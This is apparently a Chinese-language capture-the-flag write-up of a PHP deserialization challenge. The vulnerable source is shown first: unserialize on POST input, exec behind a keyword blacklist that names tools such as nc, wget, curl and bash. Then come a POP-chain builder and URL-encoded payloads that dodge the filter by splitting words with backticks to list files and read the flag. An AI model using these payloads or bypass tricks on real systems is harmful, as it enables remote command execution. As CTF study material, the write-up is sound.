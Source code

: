 ### RCE!!!

---

```php
<?php
highlight_file(__FILE__);
class minipop{
    public $code;
    public $qwejaskdjnlka;
    public function __toString()
    {
        if(!preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|tee|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $this->code)){
            exec($this->code);
        }
        return "alright";
    }
    public function __destruct()
    {
        echo $this->qwejaskdjnlka;
    }
}
if(isset($_POST['payload'])){
    //wanna try?
    unserialize($_POST['payload']);
}
```

代码分析，最后是一个`exec`无回显执行，同时还需要使用反序列化的东西

```php
//构造pop链
$a = new minipop();
$b = new minipop();
$a->qwejaskdjnlka = $b;
$b->code = "执行代码";
echo urlencode(serialize($a));
```

注意过滤内容，第一次的时候我一直使用后缀`txt`一直不成功

```php
payload=O%3A7%3A%22minipop%22%3A2%3A%7Bs%3A4%3A%22code%22%3BN%3Bs%3A13%3A%22qwejaskdjnlka%22%3BO%3A7%3A%22minipop%22%3A2%3A%7Bs%3A4%3A%22code%22%3Bs%3A14%3A%22ls+%2F+%7Cte%60%60e+bb%22%3Bs%3A13%3A%22qwejaskdjnlka%22%3BN%3B%7D%7D
```



![image-20240910231539923](https://gitee.com/bx33661/image/raw/master/path/image-20240910231539923.png)

```php
$a = new minipop();
$b = new minipop();
$a->qwejaskdjnlka = $b;
$b->code = "ta``c /flag_is_h3eeere |te``e cc";

payload=O%3A7%3A%22minipop%22%3A2%3A%7Bs%3A4%3A%22code%22%3BN%3Bs%3A13%3A%22qwejaskdjnlka%22%3BO%3A7%3A%22minipop%22%3A2%3A%7Bs%3A4%3A%22code%22%3Bs%3A32%3A%22ta%60%60c+%2Fflag_is_h3eeere+%7Cte%60%60e+cc%22%3Bs%3A13%3A%22qwejaskdjnlka%22%3BN%3B%7D%7D
```

![image-20240910231655359](https://gitee.com/bx33661/image/raw/master/path/image-20240910231655359.png)